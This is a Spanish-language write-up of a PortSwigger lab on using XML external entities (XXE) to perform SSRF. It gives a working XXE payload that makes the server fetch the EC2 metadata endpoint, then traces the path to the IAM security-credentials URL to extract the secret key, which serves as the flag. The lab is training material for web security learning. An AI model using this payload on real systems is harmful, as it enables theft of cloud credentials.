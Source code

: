 # XXE to perform SSRF attacks

> This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.
>
>  The lab server is running a \(simulated\) EC2 metadata endpoint at the default URL, which is `http://169.254.169.254/`. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.
>
>  To solve the lab, exploit the [XXE](https://portswigger.net/web-security/xxe) vulnerability to perform an [SSRF attack](https://portswigger.net/web-security/ssrf) that obtains the server's IAM secret access key from the EC2 metadata endpoint.

Viendo las paginas de productos ocurre lo mismo que en el laboratorio anterior del envio de documentos.

Para ejecutar el SSRF cambiamos el envio de xml a lo siguiente:

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
<stockCheck><productId>
&xxe;
</productId><storeId>
&xxe;
</storeId></stockCheck>
```

Con eso obtemenos lo siguiente:

"Invalid product ID: latest "

Esto implica que existe la carpeta latest dentro del objetivo, modificando la request la obtenemos el siguiente directorio:

![](../../../.gitbook/assets/imagen%20%28617%29.png)

Y asi hasta llegar **http://169.254.169.254/latest/meta-data/iam/security-credentials/admin** y obtener la flag.



